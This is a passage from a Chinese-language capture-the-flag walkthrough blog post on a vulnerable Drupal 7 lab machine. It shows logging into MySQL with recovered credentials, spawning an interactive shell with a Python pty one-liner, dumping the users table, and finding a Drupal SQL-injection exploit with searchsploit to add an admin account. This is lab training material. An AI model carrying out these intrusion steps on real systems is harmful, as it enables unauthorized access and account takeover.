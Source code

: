 最重要的是我们得到了数据库的账号密码

并翻译一下flag2

`暴力破解和字典攻击并非获取访问权限的唯一途径（而你确实需要获取访问权限 ）。拿到这些凭证后你能做些什么？`

得到了数据库的账号密码，不妨登录试一下

![image-20250425181219990](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192323381-376385133.png)

但发现一直卡着，因为shell无法直接交互数据库，需要在shell的情况下获得一个可以交互式的shell，当然需要有python环境的攻击机才行

`python -c 'import pty; pty.spawn("/bin/bash")'`

`mysql -udbuser -pR0ck3t`

![image-20250425181656972](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192323670-951558335.png)

`show databases`

![image-20250425181729831](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192323972-2074201967.png)

`use drupaldb`

`show tables`

![image-20250425181830671](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192324274-640693843.png)

存在一个users表

`select * from users`

![image-20250425181937842](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192324672-2037449849.png)

拿到密码了，但是发现根本爆破不出来，同样另外一个账户Fred也爆破不出来

解决这种无法爆破数据库中网站的密码，我们可以用其他方法

第一种：添加admin权限用户

先exit退回到msf页面

![image-20250425182304231](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192325061-282348028.png)

因为在之前我们知道了Drupal的版本为7，可以利用漏洞查找工具searchsploit来查找drupal方面的一个SQL注入的漏洞，会发现很多个漏洞脚本可以使用

`searchsploit drupal`

![image-20250425182600303](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192325440-1234731921.png)

我们看一下34992.py这个脚本，可以通过这个URL进行下载

`searchsploit 34992.py -p`

![image-20250425182734683](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192325809-2026716320.png)

![image-20250425182812323](https://img2023.cnblogs.com/blog/3588329/202504/3588329-20250425192326183-1339891029.png)

然后下载下来放到kali里
